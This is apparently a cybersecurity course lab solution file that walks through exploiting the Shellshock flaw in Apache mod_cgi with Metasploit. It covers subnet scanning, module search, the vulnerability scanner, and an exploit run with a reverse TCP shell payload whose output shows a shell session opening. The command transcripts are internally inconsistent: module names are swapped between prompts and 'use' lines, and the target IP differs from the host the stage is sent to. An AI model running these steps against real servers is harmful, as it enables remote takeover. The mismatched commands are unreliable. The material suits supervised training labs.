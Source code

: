 ## Solution File: Shellshock Exploitation


### Instructions
Launch the **Linux Exploitation lab**

Follow the instructions inside the lab starting with **Part 4: Exploit the Shellshock Vulnerability.**

- Scan your subnet for live hosts. Identify the host(s) running an Apache HTTP server.
- Use Metasploit to `search` for Metasploit modules related to Shellshock.
- Use Metasploit to scan live hosts for the Shellshock vulnerability.
  - **Hint**: Check the `/cgi-bin/status.cgi` endpoint. Look for a `auxiliary` module.
- Attempt to exploit the server with the modules related to Apache. Record which one works.

### Solutions
Launch the  **Linux Exploitation lab**

- Open a terminal, and launch `msfconsole`.

- Identify your IP address and netmask with: `ifconfig`

- Scan your subnet with: `db_nmap 10.0.0.0/24`

- Identify Apache servers on `10.0.0.100` and `10.0.0.101`.

- Use Nmap to scan each of these hosts for Shellshock. 

- Search for Shellshock modules. You'll identify two related to Apache: `auxiliary/scanner/http/apache_mod_cgi_bash_env` and `exploit/multi/http/apache_mod_cgi_bash_env_exec`.
  - The scanner is used to test for the vulnerability.
  - The exploit actually exploits the vulnerability.


  ```bash
  msf> search shellshock

  Matching Modules
  ================
  
     Name                                               Disclosure Date  Rank       Description
     ----                                               ---------------  ----       -----------
     auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
     auxiliary/server/dhclient_bash_env                 2014-09-24       normal     DHCP Client Bash Environment Variable Code Injection (Shellshock)
     exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Advantech Switch Bash Environment Variable Code Injection (Shellshock)
     exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  IPFire Bash Environment Variable Injection (Shellshock)
     exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
     exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
     exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  CUPS Filter Bash Environment Variable Code Injection (Shellshock)
     exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
     exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
     exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
     exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  Dhclient Bash Environment Variable Injection (Shellshock)
     exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     Qmail SMTP Bash Environment Variable Injection (Shellshock)
  ```

- Load and use the scanner. You'll see that the target is vulnerable.

  ```bash
  msf > use auxiliary/scanner/http/apache_mod_cgi_bash_env
  msf auxiliary(multi/http/apache_mod_cgi_bash_env_exec) > SET RHOST 10.0.0.100
  msf auxiliary(multi/http/apache_mod_cgi_bash_env_exec) > SET TARGETURI /cgi-bin/status.cgi
  msf auxiliary(multi/http/apache_mod_cgi_bash_env_exec) > exploit
  ```

- Load and use the exploit. You'll be greeted with a reverse shell.

  ```bash
  msf auxiliary(multi/http/apache_mod_cgi_bash_env_exec) > use exploit/multi/http/apache_mod_cgi_bash_env

  msf exploit(multi/http/apache_mod_cgi_bash_env) > SET RHOST 10.0.0.100

  msf exploit(multi/http/apache_mod_cgi_bash_env) > SET TARGETURI /cgi-bin/status.cgi

  msf exploit(multi/http/apache_mod_cgi_bash_env) > SET PAYLOAD linux/x86/shell/reverse_tcp

  msf exploit(multi/http/apache_mod_cgi_bash_env) > check
    [*] 10.0.0.100:80 The target is vulnerable.

  msf exploit(multi/http/apache_mod_cgi_bash_env) > exploit
    [*] Started reverse TCP handler on 172.16.1.100:4444
    [*] Command Stager progress - 100.46% done (1097/1092 bytes)
    [*] Sending stage (36 bytes) to 172.16.1.102
    [*] Command shell session 2 opened (172.16.1.100:4444 -> 172.16.1.102:49499)
  ```

- Take a moment to address remaining questions before proceeding.
